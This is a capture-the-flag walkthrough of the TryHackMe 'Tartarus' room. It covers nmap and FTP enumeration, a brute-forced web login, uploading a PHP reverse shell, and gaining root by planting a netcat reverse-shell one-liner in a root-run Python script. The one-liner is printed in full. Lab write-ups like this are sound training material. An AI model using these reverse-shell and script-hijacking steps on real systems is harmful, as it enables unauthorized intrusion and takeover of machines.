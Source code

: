 ```yaml
---
layout: post
title: Tartarus Writeup
date: 2020-08-15 12:00:00 +5:30
categories: [TryHackMe, Medium]
image: /assets/img/tartarus/header.png
tags: [tryhackme, ctf, http, leakedinfo] # add tag
---
```


## Description:

The Following Post is writeup of Tartarus room of tryhackme <https://tryhackme.com/room/tartarus>

|Machine|Details
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | csenox

## Summary:

  The Room will have a anonymous ftp login upon further enum we will get a file which will redirect us to login page.
  Moving to port 80 we will get robots.txt which contains admin directory where we will get creds and user.
  Brute it to login and got a upload section. Upload a phpshell and will get www-data now you will see a python
  script in user directory put a nc reverse shell and root. :)

## Walkthrough:

### Enumeration

As usual
Lets start with nmap scan
```terminal
└──╼ $nmap -sC -sV 10.10.156.233
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-11 21:54 EDT
Nmap scan report for 10.10.156.233
Host is up (0.22s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.17.224
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.59 seconds
```

#### FTP

let's dirbust it
```terminal
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 ...
226 Directory send OK.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 ...
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
-rw-r--r--    1 ftp      ftp            14 Jul 05 21:45 yougotgoodeyes.txt
226 Directory send OK

Never think this way
```
TBH i stuck at this but got it thanks

#### HTTP

we got robots.txt

User-Agent: * <br/>
Disallow : /admin-dir <br />
I told d4rckh we should hide our things deep.

![Page](/assets/img/tartarus/webserver.png)

I got creds and userid <br />
Let's check out what else we can do.

We have admin login let's bruteforce it

![login](/assets/img/tartarus/login.png)

![Bruteforce](/assets/img/tartarus/bruteforce.png)

Got a upload directory after successful login

![Page](/assets/img/tartarus/upload.png)

### Exploitation:

We will start Exploitation by uploading a php reverse Shell<br />
![port 80](/assets/img/tartarus/webshellupload.png)

Execute and get Shell

```terminal
www-data@ubuntu-xenial:/$ ls
bin   dev  home        initrd.img.old  lib64       media  opt   root  sbin  srv  tmp  vagrant  vmlinuz
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   snap  sys  usr  var      vmlinuz.old
www-data@ubuntu-xenial:/$ cd /home
www-data@ubuntu-xenial:/home$ ls
cleanup  d4rckh  thirtytwo
www-data@ubuntu-xenial:/home$ cd d4rckh/
www-data@ubuntu-xenial:/home/d4rckh$ ls
cleanup.py  user.txt
www-data@ubuntu-xenial:/home/d4rckh$ cat user.txt

www-data@ubuntu-xenial:/home/d4rckh$ cat cleanup.py
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /home/cleanup/* ')
except:
        sys.exit()
```
In place of os system let's put nc reverse Shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f



Yessss
```terminal
┌─[root@parrot]─[~/Desktop/tryhackme/tartarus]
└──╼ $pwncat --listen --port 4444
[10:42:02] received connection from 10.10.168.38:35120                                                                  connect.py:149
[10:42:05] new host w/ hash 43d11761713cfc52d9e6fe891bda5715                                                             victim.py:328
[10:42:21] pwncat running in /bin/sh                                                                                     victim.py:362
initializing: complete ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0%
[10:42:30] pwncat is ready 🐈                                                                                            victim.py:758


\[\033[01;31m\](remote)\[\033[00m\] \[\033[01;33m\]\u@\h\[\033[00m\]:\[\033[01;36m\]\w\[\033[00m\]$ bash
root@ubuntu-xenial:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-xenial:~#
```
Rooted :-)
